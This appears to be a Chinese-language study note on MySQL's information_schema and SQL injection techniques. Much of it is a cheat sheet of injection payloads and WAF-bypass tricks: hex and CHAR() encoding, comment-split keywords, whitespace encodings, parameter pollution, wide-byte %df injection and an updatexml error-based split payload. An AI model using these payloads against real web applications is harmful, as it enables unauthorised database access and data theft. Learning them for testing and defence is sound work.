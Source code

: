 ```yaml
---
published: false
---
```

### mysql中重要的数据库和表单：
Information_schema数据库：作用是保存所有数据库信息。
information_schema.tables存储了数据表的元数据信息，下面对常用的字段进行介绍：
* table_schema: 记录数据库名；
* table_name: 记录数据表名；
* engine : 存储引擎；
* table_rows: 关于表的粗略行估计；
* data_length : 记录表的大小（单位字节）；
* index_length : 记录表的索引的大小；
* row_format: 可以查看数据表是否压缩过；
Limit num,num2;从num开始读取num2条信息。//limit 0，1读取第一条信息
服务器端运行tomcat（jsp）和apache（php）服务器，一个用于过滤一个用于提供服务.使用HPP(http参数污染攻击)绕过，提交index.jsp?id=1&id=playload请求

## sql注入小技巧：
为了查找有用的列名  
	where column_name LIKE ‘%PASS%’
遇到单引号转译 可以考虑使用16进制绕过：
    table_name=’users ’——》table_name=0×757365727 
避开过滤
    输入单引号没反应，尝试“
单引号被阻止
     where name=‘Marcus’ 可以使用ascII 替代字符串不必使用单引号 ‘a’->CHR(97)
    在mysql中连接字符串是CONCAT函数，select name=concat(CHAR(97),char(114))
    Oracle中 select name=chr(97)||chr(114)
    Ms-SQL中 select name=char(97)+char(114)
--注释符被阻止时考虑闭合
     ‘ or 1=1 - - 可以使用  ‘ or ‘a’ =‘a 
单纯的闭合
    ‘ playload and '
=号 被禁止
    使用<>（不等于）例：!(table_schema<>database())
关键字过滤 
  select 被过滤。使用 SeLEct selselectect %53%45%4c%45%54
                                    se%a0 lect来绕过waf
  空格过滤
    使用注释 /*foo*/   :  select/*foo*/uername,password/*foo*/from 
    在mysql中 注释还能插入关键字中避开过滤，se/*foo*/lect
  %0b TAB键（垂直）%a0 空格  %09 TAB键（水平）%0a 新建一行 %0c 新的一页 %0d return功能 

  在mysql里面，在用作布尔型判断时，以数字开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1  ，也就相当于password=‘xxx’ or true。只有数字的话，就不需要单引号，比如password=‘xxx’ or 1，那么返回值也是true

在url中使用--注释时，可能会需要使用--+才能成功注释
and或者or被完全过滤时，可以使用逻辑运算符 && ，||（要转换为url编码&-》%26）

当 ‘ 被转译为 \’ 时可以考虑宽字节注入：
    发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码(即宽字节 GBK字符集)由于编码范围的问题，使用%df就会拼接%5c(\),从而绕过。在post输入框中%df不会自动转码，需手动输入�

HPF(http分割注入)
    post请求中username参数可以使用updatexml等报错函数，但却不能用（）但password可以用（），这样就可以进行构造
    username=1′and updatexml/*&password=*/(1,concat(0x24,(select database()),0x24),1) and ‘1
这个构造语句把中间的password参数给注释掉了